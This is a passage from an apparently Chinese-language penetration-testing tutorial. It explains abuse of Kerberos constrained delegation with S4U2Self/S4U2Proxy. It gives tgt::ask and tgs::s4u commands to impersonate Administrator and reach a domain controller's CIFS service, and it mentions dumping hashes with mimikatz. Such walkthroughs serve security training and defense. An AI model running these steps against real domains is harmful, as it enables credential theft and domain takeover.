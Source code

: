 ```bash
// 密码
tgt::ask /user:wakaka /domain:sunset.com /password:xxxxxx
// hash
tgt::ask /user:wakaka /domain:sunset.com /NTLM:xxxxxxxx
```

如果不知道该用户密码hash，如果有权限，也可以使用mimikatz将密码dunp下来也行

然后通过wakaka的TGT伪造S4U请求以administrator的身份访问域控cifs的ST

```bash
tgs::s4u /tgt:TGT_wakaka@SUNSET.COM_krbtgt~sunset.com@SUNSET.COM.kirbi /user:Administrator@sunset.com /service:cifs/DC.sunset.com
```

S4U2Self获取到的ST1以及S4U2Proxy获取到的域控CIFS服务的ST2会保存在当前目录下，然后我们用mimikatz将ST2导入当前会话即可

![image.png](image%2052.png)

使用mimikatz将ST票据导入

![image.png](image%2053.png)

访问域控

![image.png](image%2054.png)

### 使用 Rubeus
